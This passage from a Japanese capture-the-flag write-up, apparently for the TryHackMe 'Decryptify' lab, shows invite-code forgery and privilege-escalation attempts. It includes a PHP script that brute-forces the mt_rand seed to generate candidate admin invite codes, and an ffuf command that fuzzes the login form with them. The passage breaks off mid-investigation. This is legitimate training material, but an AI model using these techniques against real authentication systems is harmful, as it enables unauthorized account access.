 ```php
```

```shell
$ php ./gen_invite.php
invite code: （ひみつ）
```

これを使ってログイン成功。フラグ１ゲット。

## 権限昇格

管理者権限を持った`admin@fake.thm`ユーザーがいることが分かった。

定数値 99999 を使って招待コードを生成したが、ログインできなかった。

100 万の範囲で定数値ブルートフォースをかけたが、ヒットしなかった。

```php
<?php
// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}

$email = "admin@fake.thm";

for ($i = 0; $i < 1000000; $i++) {
    $constant_value = $i;
    $seed_value = calculate_seed_value($email, $constant_value);
    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);
    print("$invite_code\n");
}
?>
```

```shell
root@ip-10-10-132-142:~# ffuf -u http://decryptify.thm:1337/ -c -w ./code_list.txt -X POST -d 'invite_username=admin@fake.thm&invite_code=FUZZ' -fr 'Invalid' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: PHPSESSID=kq91m1g7hqr69m1jpr3fcb3kfm'
```

Cookie に role があるのが気になる。長さから SHA384 ハッシュと思われる。  
これを操作して、ロールを admin に偽装できないかと考えたが、分からなかった。

```
PHPSESSID: （PHPセッションID）
role: （ロールクッキー）
```

ダッシュボードのソースに下記の項目があるのが気になった。
